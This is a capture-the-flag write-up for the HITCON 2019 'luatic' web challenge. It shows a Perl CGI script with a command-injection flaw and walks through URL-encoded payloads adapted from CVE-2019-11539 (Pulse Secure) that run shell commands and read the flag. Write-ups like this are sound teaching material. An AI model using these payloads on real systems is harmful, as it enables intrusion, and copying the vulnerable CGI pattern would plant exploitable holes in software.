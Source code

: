HITCON2019-luatic(CallMeCro)
---
Vulnerable Point of Your Network :)

#Foreword
---
Congratulations to myself, because I solved an international CTF questions for the first time(Although
in the end it was master lanmao who reminded me of the proper way of writing payload).

#Examination Site
---
* Perl
* Command Injection
* CVE-2019-11539

#Analysis
---
As you view the source code through F12, you will find there is a hint
```bash
<!-- Hint for you :)
     <a href='diag.cgi'>diag.cgi</a>
     <a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

Then we open the diag.cgi to get its source code
```bash
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;

    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
It is easy to see that there is a command injection.Now, we have to figure out what to do with it.

#Exploit
---
It's easy to think about going to orange's blog since he is the author of it.
https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html

Here we found CVE-2019-11539 and its payload:
```bash
-r$x="ls /",system$x# 2>/data/runtime/tmp/tt/setcookie.thtml.ttc < 
```

We'll modify it a little bit and try to commit

```bash
/cgi-bin/diag.cgi?option=-r%24x%3d%22ls+-lt+%2f%22%2csystem%24x%23+2%3e.%2ftmp%2fcallmecro.thtml+%3c&tpl=callmecro
```
After we commit it,we will get this
```bash
total  96
-rwsr-sr-x  1 root root   8520  Oct 11  23:57  $READ_FLAG$
-r--------  1 root root     49  Oct 11  23:59  FLAG
.....
```

And then I stopped.The "cat" command could not be used, and the execution of $READ_FLAG$ failed.
Finally, master lanmao told me about perl's syntax problems.The final payload:
```bash
/cgi-bin/diag.cgi?option=-r%24x%3d%2f%24%2f%2fREAD_FLAG%2f%24system%24x%23+2%3e.%2ftmp%2fcallmecro.thtml+%3c&tpl=callmecro

Response:
HTTP/1.1 200 OK
Date: Sun, 12 Oct 2019 07:04:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 50
Connection: close
Content-Type: text/html

hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}
```

laomao tql.
